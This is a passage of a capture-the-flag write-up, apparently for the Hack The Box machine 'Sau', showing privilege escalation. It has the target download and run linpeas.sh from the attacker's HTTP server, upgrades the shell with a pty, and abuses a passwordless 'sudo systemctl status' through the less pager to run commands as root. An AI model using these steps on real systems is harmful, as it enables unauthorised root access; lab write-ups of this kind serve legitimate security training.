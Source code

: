 ```
```
## Privilege escalation
We will use `linpeas.sh` to get information about the host. I already downloaded the script. I can set an HTTP server on my host to make it downloadable from the target:
```
$ls
linpeas.sh
$python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
And from the target:
```
wget http://10.10.14.59:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
Because it is not very nice to not have a prompt, I upgrade the prompt using Python:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'           
puma@sau:/tmp$
```
In the linpeas report, there is something interesting in the sudo and suid section:
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
We can see that a command can be run with sudo and no password. There is a section for the command `systemctl` in [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo). You can run system command through the `systemctl` because some text is displayed through `less`:
```
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sat 2023-10-28 14:23:56 UTC; 1h 47min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 879 (python3)
      Tasks: 21 (limit: 4662)
     Memory: 313.2M
     CGroup: /system.slice/trail.service
             ├─  879 /usr/bin/python3 server.py
             ├─ 1365 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed >
             ├─ 1366 sh
             ├─ 8722 gpg-agent --homedir /home/puma/.gnupg --use-standard-socke>
             ├─16239 python3 -c import pty; pty.spawn("/bin/bash")
             ├─16240 /bin/bash
             ├─16251 sudo /usr/bin/systemctl
             ├─16253 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed >
             ├─16254 sh
             ├─16255 python3 -c import pty; pty.spawn("/bin/bash")
             ├─16256 /bin/bash
             ├─16267 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed >
             ├─16268 sh
             ├─16269 python3 -c import pty; pty.spawn("/bin/bash")
lines 1-23!ls
```